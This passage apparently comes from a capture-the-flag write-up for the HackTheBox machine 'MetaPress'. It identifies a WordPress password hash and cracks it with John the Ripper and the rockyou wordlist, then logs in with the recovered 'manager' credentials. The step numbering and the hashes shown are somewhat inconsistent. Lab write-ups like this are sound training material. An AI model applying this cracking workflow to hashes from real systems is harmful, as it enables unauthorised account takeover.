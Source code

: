 1) I analyze the hash with a hash-identifier tool:
```
--------------------------------------------------
 HASH: $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
```
2) Possible Hash:
```
[+] MD5(Wordpress)
--------------------------------------------------
 HASH: $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
```

2) I save the manager password in a file with nano
3)I attack the dictionary with john the ripper:
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  

partylikearockstar		(manager)
```
4) With these credentials I can access the site manager panel:
http://metapress.htb/login